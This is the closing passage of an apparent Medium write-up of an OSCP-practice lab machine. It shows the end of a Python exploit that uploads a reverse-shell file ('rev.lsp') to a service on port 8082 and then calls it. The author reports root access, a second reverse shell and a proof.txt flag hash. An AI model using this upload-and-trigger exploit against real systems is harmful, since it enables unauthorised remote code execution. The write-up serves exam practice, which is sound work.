     files = {'file': ('rev.lsp', file_content, 'application/octet-stream')}  
    r = s.post(f"http://{url}:8082/fs/", files=files)  
      
    if r.text == 'ok' :  
        print(f"{Fore.GREEN}[+]{Fore.WHITE} Successfully uploaded, calling shell ")  
        r = s.get(f"http://{url}:8082/rev.lsp")  
  
if __name__=='__main__':  
    try:  
        main()  
    except Exception as error:  
        print(error)  
        print(f"\n{Fore.YELLOW}[*]{Fore.WHITE} Good bye!\n\n**All Hail w4rf4ther!")

I ran it. It worked!

![](https://miro.medium.com/v2/resize:fit:700/1*CSjjtiC2cVf-QwProBKmbw.png)

And, we are root lol.

![](https://miro.medium.com/v2/resize:fit:419/1*pDAGHm53Khhk2oFM_VZZtw.png)

However, the shell is somewhat malfunctioning, so I opted to initiate another reverse shell from the server.

![](https://miro.medium.com/v2/resize:fit:634/1*qAuNXyTqDtVO5okq6Zgnbg.png)

proof.txt: 6f031f5f9838facf0e64644045c7dacc

Rooted!

[

Oscp Preparation

](https://medium.com/tag/oscp-preparation?source=post_page-----c825fd915dca---------------oscp_preparation-----------------)

[

![Ardian Danny](https://miro.medium.com/v2/resize:fill:72:72/1*vrVUMWIoCNLaA0EOiUmlLw.jpeg)





](https://medium.com/@ardian.danny?source=post_page-----c825fd915dca--------------------------------)

[

## Written by Ardian Danny

](https://medium.com/@ardian.danny?source=post_page-----c825fd915dca--------------------------------)

[16 Followers](https://medium.com/@ardian.danny/followers?source=post_page-----c825fd915dca--------------------------------)
